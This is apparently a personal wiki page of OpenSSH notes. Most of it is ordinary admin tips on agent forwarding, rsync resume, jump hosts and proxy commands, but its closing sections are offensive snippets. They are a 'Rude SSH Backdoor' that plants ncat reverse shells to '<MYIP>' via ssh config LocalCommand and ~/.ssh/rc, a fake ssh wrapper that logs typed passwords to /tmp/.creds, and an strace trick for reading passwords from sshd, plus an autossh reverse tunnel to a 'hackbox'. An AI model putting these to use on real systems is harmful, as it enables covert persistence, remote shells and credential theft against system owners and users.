 ```yaml
---
title: git
description: A quick summary of Openssh
published: true
date: 2023-01-14T04:09:41.520Z
tags: 
editor: markdown
dateCreated: 2022-10-01T21:23:50.953Z
---
```



# SSH Agent
```
eval `ssh-agent`
ssh-add # Will add all keys from ~/.ssh
ssh-add -l # Displays the added keys
```

then use ssh -A to forward 


# Resuming an SCP transfer
```
rsync -e ssh \
--partial --append \
--progress \
remote.example.org:/path/to/file .
```

# Using a Jumphost
```
ssh -D 12344 -J me@jumphost root@unreachable-host
```

# Proxy Command
```
ssh -o ProxyCommand="ssh -W %h:%p bob@10.10.10.10" bob@remote
ssh -o ProxyCommand="ncat --proxy proxyhsot 1080 %h %p" bob@remote
```

# AUTOSSH
```
#Run on remote host
autossh -M 0 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -R 127.0.0.1:2222:127.0.0.1:22 hackbox

#Run on hackbox
ssh -P 2222 bob@localhost
get into remote box
```

# Stuff inside ssh
```
~? - help message
~# show forwarded connections.
~~ send excape character (by doing it twice)
?C - Command Line

CommandLineCommands
ssh> ?
Commands:
      -L[bind_address:]port:host:hostport    Request local forward
      -R[bind_address:]port:host:hostport    Request remote forward
      -D[bind_address:]port                  Request dynamic forward
      -KL[bind_address:]port                 Cancel local forward
      -KR[bind_address:]port                 Cancel remote forward
      -KD[bind_address:]port                 Cancel dynamic forward
```

# Rude SSH Backdoor
```
#cat ~/ssh/config

Hostname *
	PermitLocalCommand true
	Localcommand ncat -e /bin/bash <MYIP> 4141 &

```

```
# cat ~/.ssh/rc
ncat -e /bin/bash <MYIP> 4141 &
```

# Rude password grabber
```
# cat /usr/local/bin/ssh

#!/bin/bash
read -esp "${1}'s password: " password
echo "$1 - $password" >> /tmp/.creds
echo
 /usr/bin/ssh $@
 
```

# Pull passwords out of ssh
ps --ppid 1 | grep sshd
strace -f -p 641 -e read |& grep -F "\f\0\0\0"

[pid 2235] read(6, "\f\0\0\0\10secret", 10) = 10
